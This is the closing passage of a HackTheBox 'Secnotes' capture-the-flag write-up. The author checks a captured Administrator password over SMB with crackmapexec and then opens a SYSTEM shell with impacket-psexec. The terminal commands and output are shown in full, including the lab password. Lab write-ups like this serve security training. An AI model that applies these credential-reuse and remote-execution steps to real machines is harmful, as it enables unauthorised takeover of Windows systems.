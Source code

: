 ```
```

We see the user tried connecting to smb as administrator 

Lets check it out from our host using `crackmapexec` xD

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ crackmapexec smb 10.10.10.97 -u Administrator -p 'u6!4ZwgwOM#^OBf#Nwnh' 
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
```

Nice since we know the user connected to the `C$` share meaning the filesystem 

We can then use `psexec` to get a shell as `nt/authority`

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ impacket-psexec administrator@10.10.10.97
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file knFcdmMl.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service YnJx on 10.10.10.97.....
[*] Starting service YnJx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system

C:\WINDOWS\system32>
```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>

                          
                         










